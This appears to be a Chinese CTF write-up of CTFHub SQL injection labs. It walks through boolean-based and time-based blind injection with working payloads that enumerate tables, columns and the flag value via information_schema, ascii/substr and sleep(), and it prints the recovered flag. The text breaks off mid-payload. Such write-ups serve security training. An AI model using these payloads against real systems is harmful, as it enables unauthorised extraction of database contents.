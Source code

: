 ![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751553260899-ec4411c7-2b4a-40bf-93f3-7261895237da.png)

### 布尔盲注
经测试只有`query_error``query_success `两种

布尔盲注

```sql
1 and (select count(table_name) from information_schema.tables where table_schema=database())=2 -- 表数量2
1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4 -- 表1长度4
1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4 -- 表2长度4
```

```sql
1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=100 -- 
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751554790937-f9e129e7-9510-48a2-a648-48c1201fcc7d.png)

表名：flag

```sql
1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='flag')=1 -- 列数1
1 and length((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1))=4 -- 列长度4
```

```sql
1 and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1))=100 -- 
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751555455225-ffa75ad0-6a60-46ff-abe5-f8f785eec9c7.png)

列名：flag

```sql
1 and length((select flag from flag limit 0,1))=32 -- 
```

```sql
1 and ascii(substr((select flag from flag limit 0,1),1,1))=100 -- 
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751556017005-d3daa211-19be-4b3b-b201-4b1130deb274.png)

`<font style="color:rgb(139, 139, 139);">ctfhub{f127288b7d5f415118ee54ed}</font>`

### 时间盲注
```plsql
1 and sleep(3) -- 数字型注入
1 and if((select count(table_name)from information_schema.tables where table_schema=database())=2,sleep(3),0) -- 表数量2
1 and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4,sleep(2),0) -- 表1长度4
1 and if(length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4,sleep(2),0) -- 表2长度4
1 and if(ascii(substr((select table_name from information_schema.tables where ta
ble_schema=database() limit 1,1),§1§,1))=§100§,sleep(2),0) -- 表1：news;表2：flag
1 and if((select count(column_name) from information_schema.columns where table_schema=database() and table_name='flag')=1,sleep(2),0) -- flag表列数量1
1 and if(length((select column_name from information_schema.columns where table_schema=database() and table_name='flag'))=4,sleep(2),0) -- 列1长度4
1 and if(ascii(substr((select column_name from information_schema.columns where 
```